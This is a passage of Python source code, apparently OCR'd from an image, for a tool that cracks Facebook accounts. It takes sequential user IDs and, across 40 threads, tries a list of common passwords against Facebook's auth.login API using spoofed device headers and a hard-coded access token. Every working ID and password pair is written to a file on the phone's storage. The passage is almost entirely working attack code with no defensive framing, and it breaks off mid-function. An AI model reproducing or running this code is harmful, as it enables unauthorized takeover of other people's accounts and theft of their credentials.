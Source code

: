     
       with tred(max_workers=40) as crack_submit:
           clear()
           print(f'\x1b[38;5;244m(\x1b[1;97m✘\x1b[38;5;244m)\x1b[38;5;46m\x1b[38;5;46m TOTAL ID \x1b[38;5;244m–\x1b[38;5;46m➤{A} {limit} \x1b[38;5;244m(\x1b[1;97m✘\x1b[38;5;244m)\x1b[38;5;46m\x1b[38;5;46m METHOD \x1b[38;5;244m–\x1b[38;5;46m➤ {A}M{ask}')
           print(f'\x1b[38;5;244m(\x1b[1;97m✘\x1b[38;5;244m)\x1b[38;5;46m IF NO RESULT \x1b[38;5;244m[\x1b[38;5;46mON\x1b[38;5;244m/\x1b[38;5;46mOFF\x1b[38;5;244m]\x1b[38;5;46m AIRPLANE MODE');linex()
           for mal in user:
              uid=star+mal
              crack_submit.submit(login,uid)
    
loop=0
oks=[]
cps=[]

def login(uid):
    global oks,loop
    Session=requests.session()
    try:
        sys.stdout.write(f'\r\x1b[38;5;244m(\x1b[38;5;46m{date}\x1b[38;5;244m)\x1b[38;5;244m–\x1b[38;5;46m➤\x1b[38;5;244m[\x1b[38;5;46m{loop}\x1b[38;5;244m]\x1b[38;5;244m-\x1b[38;5;46m➤\x1b[38;5;244m[\x1b[38;5;46m{len(oks)}\x1b[38;5;244m/\x1b[38;5;46m{len(cps)}\x1b[38;5;244m]')
        sys.stdout.flush()
        for pw in ["123456","1234567","12345678","123456789","123123","112233","1234567890"]:
            headers = {
            "x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), 
            "x-fb-sim-hni": str(random.randint(20000, 40000)), 
            "x-fb-net-hni": str(random.randint(20000, 40000)), 
            "x-fb-connection-quality": "EXCELLENT",
            "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA",
            "user-agent": windows(), 
            "content-type": "application/x-www-form-urlencoded", 
            "x-fb-http-engine": "Liger"}
            rp=Session.get("https://api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20¤tly_logged_in_userid=0&method=GET&locale=en_GB&client_country_code=GB&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers).json()
            if "session_key" in rp:
                print(f"\r\x1b[38;5;244m(\x1b[38;5;244mHOP-OK\x1b[38;5;244m)\x1b[38;5;244m {uid} ━\x1b[38;5;244m➤\x1b[38;5;46m {pw}")
                open("/sdcard/HOP-OLD.txt","a").write(uid+"|"+pw+"\n")
                cps.append(uid)
                break 
            elif "www.facebook.com" in rp["error_msg"]:              
                print(f"\r\x1b[38;5;244m(\x1b[38;5;46mHOP-OK\x1b[38;5;244m)\x1b[38;5;46m {uid} ━\x1b[38;5;244m➤\x1b[38;5;46m {pw}")
                open("/sdcard/HOP-OLD.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            elif "Please Confirm Email" in str(rp):            
                print(f"\r\x1b[38;5;244m(\x1b[38;5;46mHOP-OK\x1b[38;5;244m)\x1b[38;5;46m {uid} ━\x1b[38;5;244m➤\x1b[38;5;46m {pw}")
                open("/sdcard/HOP-OLD.txt","a").write(uid+"|"+pw+"\n")
                oks.append(uid)
                break
            else:continue
        loop+=1
    except:pass
#__________________| MAIN |__________________#
def menu():
        try:
                        clear()